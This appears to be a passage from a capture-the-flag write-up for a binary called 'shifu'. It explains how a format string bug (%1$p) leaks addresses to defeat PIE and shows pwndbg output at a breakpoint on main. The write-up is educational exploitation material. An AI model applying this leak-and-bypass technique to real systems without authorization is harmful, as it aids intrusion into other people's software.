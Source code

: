 We see that the first offset `%1$p` corresponds with what we leaked initially which is `0x55cc7413007a` and the tenth offset doesn't have any adderss thats why it shows `(nil)`

From this we can do this manually but its not going to be efficient cause its time wasting so instead i'll use a script

But before i do that here's another thing that will cause issue for us

The binary has PIE enabled which basically will randomize address making it not possible to call an address 

But with this format string vulnerability we can leak an address and calculate its offset to the main address

I'll use gdb-pwngdb for it 

Lets load up the binary 

```
┌──(mark㉿haxor)-[~/Desktop/CTF/WinterCon/pwn]
└─$ gdb-pwndbg shifu 
Reading symbols from shifu...
(No debugging symbols found in shifu)
pwndbg: loaded 138 pwndbg commands and 43 shell commands. Type pwndbg [--shell | --all] [filter] for a list.
pwndbg: created $rebase, $ida GDB functions (can be used with print/break)
------- tip of the day (disable with set show-tips off) -------
Use the errno (or errno <number>) command to see the name of the last or provided (libc) error
pwndbg> break main
Breakpoint 1 at 0x1280
pwndbg> r
Starting program: /home/mark/Desktop/CTF/WinterCon/pwn/shifu 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".

Breakpoint 1, 0x0000555555555280 in main ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
──────────────────────────────────────────────────────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]───────────────────────────────────────────────────────────────────────────────
*RAX  0x55555555527c (main) ◂— push rbp
*RBX  0x7fffffffdfe8 —▸ 0x7fffffffe332 ◂— '/home/mark/Desktop/CTF/WinterCon/pwn/shifu'
*RCX  0x555555557de8 (__do_global_dtors_aux_fini_array_entry) —▸ 0x555555555140 (__do_global_dtors_aux) ◂— endbr64 
*RDX  0x7fffffffdff8 —▸ 0x7fffffffe35d ◂— 0x5245545f5353454c ('LESS_TER')
*RDI  0x1
*RSI  0x7fffffffdfe8 —▸ 0x7fffffffe332 ◂— '/home/mark/Desktop/CTF/WinterCon/pwn/shifu'
 R8   0x0
*R9   0x7ffff7fcf6a0 (_dl_fini) ◂— push rbp
*R10  0x7ffff7fcb878 ◂— 0xc00120000000e
*R11  0x7ffff7fe18c0 (_dl_audit_preinit) ◂— mov eax, dword ptr [rip + 0x1b552]
 R12  0x0
*R13  0x7fffffffdff8 —▸ 0x7fffffffe35d ◂— 0x5245545f5353454c ('LESS_TER')
*R14  0x555555557de8 (__do_global_dtors_aux_fini_array_entry) —▸ 0x555555555140 (__do_global_dtors_aux) ◂— endbr64 
*R15  0x7ffff7ffd020 (_rtld_global) —▸ 0x7ffff7ffe2e0 —▸ 0x555555554000 ◂— 0x10102464c457f
*RBP  0x7fffffffded0 ◂— 0x1
*RSP  0x7fffffffded0 ◂— 0x1
*RIP  0x555555555280 (main+4) ◂— sub rsp, 0x30
───────────────────────────────────────────────────────────────────────────────────────[ DISASM / x86-64 / set emulate on ]────────────────────────────────────────────────────────────────────────────────────────
 ► 0x555555555280 <main+4>     sub    rsp, 0x30
   0x555555555284 <main+8>     mov    dword ptr [rbp - 0x24], edi
   0x555555555287 <main+11>    mov    qword ptr [rbp - 0x30], rsi
   0x55555555528b <main+15>    mov    rax, qword ptr fs:[0x28]
   0x555555555294 <main+24>    mov    qword ptr [rbp - 8], rax
```